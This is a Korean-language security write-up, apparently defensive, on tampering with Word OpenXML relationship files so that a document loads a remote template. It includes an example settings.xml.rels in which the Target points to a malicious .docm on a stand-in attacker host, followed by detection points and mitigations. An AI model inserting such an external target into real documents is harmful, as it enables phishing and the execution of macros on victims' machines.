

# Word XML Link Tampering

## 개요

Word 문서의 OpenXML 관계 파일을 변조해 외부 템플릿이나 문서 리소스를 공격자 제어 위치로 참조하게 만드는 초기 침투 기법입니다. Notion 원본의 흐름도는 아래와 같이 문서 열람부터 외부 리소스 로드, 매크로 실행으로 이어지는 과정을 설명합니다.



## 동작 방식

일반적으로 Microsoft Word 문서는 필요한 리소스를 내부에 포함하지만, 온라인 템플릿이나 업데이트 같은 기능에서는 외부 서버의 리소스를 참조할 수 있습니다. 공격자는 이 메커니즘을 악용해 Word 문서 내부 관계 파일의 정상 URL을 공격자 제어 서버나 악성 Word 파일 URL로 바꿀 수 있습니다.

대표적으로 확인해야 할 파일은 다음과 같습니다.

```text
word/_rels/settings.xml.rels
```

관계 파일의 외부 Target이 악성 `.docm` 파일을 가리키면, 피해자가 문서를 열 때 Word가 외부 리소스를 가져오고 자동 실행 매크로로 이어질 수 있습니다.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
  <Relationship
    Id="rId1"
    Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/styles"
    Target="styles.xml"/>

  <Relationship
    Id="rId2"
    Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings"
    Target="http://attacker.example/malicious.docm"/>
</Relationships>
```

## 탐지 포인트

- Office 문서 내부 `.rels` 파일에서 외부 HTTP/HTTPS Target 참조를 검사합니다.
- `WINWORD.EXE`가 문서 열람 직후 비정상 외부 도메인으로 연결하는지 확인합니다.
- Office 프로세스의 자식 프로세스 생성과 문서 다운로드 이벤트를 함께 봅니다.
- 메일 게이트웨이에서 OOXML 압축 내부의 관계 파일을 정적으로 검사합니다.

## 대응 방안

1. 인터넷에서 받은 Office 문서의 매크로와 외부 템플릿 로딩을 제한합니다.
2. Protected View, ASR 규칙, 신뢰할 수 있는 위치 정책을 적용합니다.
3. Office 문서 첨부파일 검사 시 내부 XML 관계 파일까지 분석합니다.

## 참고자료

- [Microsoft OpenXML Relationships](https://learn.microsoft.com/en-us/office/open-xml/package-structure)
- [MITRE ATT&CK - Phishing](https://attack.mitre.org/techniques/T1566/)
